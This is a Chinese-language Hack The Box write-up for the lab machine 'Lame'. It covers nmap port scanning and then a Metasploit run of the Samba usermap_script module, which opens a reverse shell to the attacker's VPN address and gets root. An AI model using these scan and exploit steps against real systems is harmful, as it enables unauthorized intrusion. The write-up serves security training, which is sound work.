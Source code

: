 ```yaml
---
title: Lame Writeup
date: 2020-11-05 02:22:09
category: Hack The Box
---
```


# Lame Writeup

![](./1.png)

## 0x01 信息收集

上来第一件事先扫下开放端口，刚开始先用脚本把全端口跑一遍。

在目录下新建一个 nmap 文件夹用来放扫描结果，整个渗透过程中可能存在多阶段扫描，很多结果需要分类。

### 1、TCP Scan

第一次扫描 TCP 端口可以取名为 `tcp.*`，放在 `nmap/` 下。这里有两种扫法**

**直接扫全端口。**
``` java
nmap -A -p- -oA nmap/tcp 10.10.10.3
```
`-A` == `-sC -sV -O -traceroute`
- **-sC**: 会执行默认脚本
- **-sV**: 检测开放端口的服务版本
- **-O**: 检测操作系统
- **-traceroute**: 路由跟踪
- **-p-**: 1-65535 全端口探测
- **-oA**: 输出所有格式的信息并存为 nmap/tcp.*

**如果想先快速扫开放端口，再扫服务，差别不大，[对比看这里](../../../oscp/Nmap-Tips/#0x02-扫描速度)。**

康康扫到了啥。
- **21**: ftp 2.3.4，且允许匿名登录
- **22**: openssh 4.7，允许 root 密码登录，可爆破
- **139**: samba 3.x ~ 4.x，可能是漏洞版本
- **445**: samba 3.0.20-Debian，可能是漏洞版本
- **3632**: distccd v1，分布式编译器守护进程

![](./3.png)

### 2、UDP Scan

第二次扫描看看有没有开放的 UDP 端口，可以取名为 `udp.*`，放在 `namp` 下。
``` java
nmap -sU -p- -oA nmap/udp 10.10.10.3
```
没有扫到，无 UDP 端口开放。

## 0x02 找 exp

### 1、Port 21

### 2、Port 22

### 3、Port 139、445
MSF 开起来，关键字找 exp。
``` java
search samba
```
先观察 `rank` 为 `excellent` 的，从第一个看起。

![](./7.png)
`info` 命令查看 exp 介绍和配置。
``` java
info exploit/linux/samba/is_known_pipename
```
描述说需要一个有效的凭证，目前手头没有凭证，这个模块暂不可用。

![](./8.png)
看下一个。

![](./9.png)
`info` 是个好东西，要常用。
``` java
info exploit/multi/samba/usermap_script
```
根据描述，该 exp 可以利用 `3.0.20 ~ 3.0.25rc3` 版本 samba 存在的 RCE 漏洞，根据前面信息收集，靶机版本为 `3.0.20` 符合要求。

![](./10.png)
决定先用这个 exp 试试，设置好相应参数，`exploit` 执行。有几个地方需要注意一下。
- rport 默认 139，但是根据扫描结果，139 端口并未探明服务版本，而是给了一个比较大的区间 `3.x ~ 4.x`，所以先选了**确定存在漏洞版本的 445 端口**。
- lhost 默认应该会取一个距离目标最近的 ip（纯个人判断，未了解这里的取值机制），所以这里默认取 `10.10.10.133`，但这 ip 并不是我的 vpn ip，只是碰巧之前设置内网 ip 的时候配了个 `10.10.10.x`，所以这里要改成 vpn ip `10.10.14.11`，一般情况下**默认取值为 vpn ip 不需要改**。
``` java
use exploit/multi/samba/usermap_script
set rhosts 10.10.10.3
set rport 445
set lhost 10.10.14.11
exploit
```
执行以后看到收到反弹 shell，看到 `Command shell session 1 opened (10.10.14.11:4444 -> 10.10.10.3:60557) at 2020-11-08 02:28:38 +0800`，会话生成。
输入命令 `hostname`、`id` 确认获取到靶机 `root` 权限。
``` java
hostname
id
```
![](./11.png)
翻找文件，在 `/root/root.txt`、`/home/makis/user.txt` 找到 flag。

![](./12.png) ![](./12.png)
